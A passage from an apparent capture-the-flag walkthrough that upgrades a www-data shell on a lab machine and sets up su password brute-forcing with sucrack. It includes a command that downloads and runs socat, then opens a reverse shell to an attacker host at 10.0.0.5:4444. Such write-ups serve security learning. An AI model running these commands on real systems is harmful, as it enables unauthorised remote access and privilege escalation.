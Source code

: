 That's a great hint, but we do not have possibility to use `su` for now. In order to get it working, we have to upgrade our shell. Unfortunately simply doing `/bin/bash -i` did not help.

```text
$ /bin/bash -i
bash: cannot set terminal process group (497): Inappropriate ioctl for device
bash: no job control in this shell
```

Luckily, I've found [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) blog post, showing method of upgrading our shell via `socat` tool. 

On our victim.

```text
www-data@RootThis:/home/user$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.5:4444  
<li',pty,stderr,setsid,sigint,sane tcp:10.0.0.5:4444
```

And on Kali machine.

```text
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444  
www-data@RootThis:/home/user$ su
Password:
su: Authentication failure
```

Now we can finally use `su`. But we also have to find a way to brute force the password. Another round of googling resulted in [sucrack](http://www.leidecker.info/projects/sucrack.shtml) tool - mutithreaded brute forcer for `su`. 

In order to get this on our victim machine, we firstly have to compile it on Kali using the instructions from the website. 

```text
root@kali:~/Downloads# tar -xvf sucrack-1.2.3.tar.gz
sucrack-1.2.3/
sucrack-1.2.3/AUTHORS
sucrack-1.2.3/COPYING
sucrack-1.2.3/ChangeLog
sucrack-1.2.3/INSTALL
sucrack-1.2.3/Makefile.am
sucrack-1.2.3/Makefile.in
sucrack-1.2.3/NEWS
sucrack-1.2.3/README
sucrack-1.2.3/VERSION
sucrack-1.2.3/aclocal.m4
sucrack-1.2.3/compile
sucrack-1.2.3/config.guess
sucrack-1.2.3/config.h.in
sucrack-1.2.3/config.sub
sucrack-1.2.3/configure
sucrack-1.2.3/configure.ac
sucrack-1.2.3/depcomp
sucrack-1.2.3/doc/
sucrack-1.2.3/doc/sucrack.1
sucrack-1.2.3/install-sh
sucrack-1.2.3/missing
sucrack-1.2.3/mkinstalldirs
sucrack-1.2.3/src/
sucrack-1.2.3/src/Makefile.am
sucrack-1.2.3/src/Makefile.in
sucrack-1.2.3/src/dictionary.c
sucrack-1.2.3/src/dictionary.h
sucrack-1.2.3/src/pty.c
sucrack-1.2.3/src/pty.h
```